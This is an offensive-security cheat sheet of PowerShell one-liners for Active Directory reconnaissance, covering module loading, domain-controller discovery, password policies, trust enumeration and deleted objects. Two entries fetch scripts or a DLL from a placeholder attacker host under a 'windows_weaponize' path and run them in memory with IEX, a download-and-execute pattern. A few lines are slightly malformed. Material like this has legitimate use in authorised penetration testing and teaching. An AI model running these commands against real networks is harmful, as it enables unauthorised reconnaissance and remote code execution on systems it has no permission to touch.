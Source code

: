 # pwsh
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - load AD Module from http (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - load AD Module from http (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get DC of a domain (nslookup)
```
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain_fqdn>
```

## AD - get DC of a trusted domain 
```
Get-ADDomainController -DomainName  <trusted_domain> -Discover
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

## AD - show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## AD - show forest trust (get-adtrust)
SIDFilteringForestAware is set to True, it means SIDHistory is enabled across the forest trust.
```powershell
get-adtrust -filter * | select name,target,sid*
```

## AD - Get domain trust
```powershell
Get-DomainTrust -Domain <domain_fqdn>
```nltest.exe /DOMAIN_TRUSTS
## AD - Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## AD - Get trash object
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

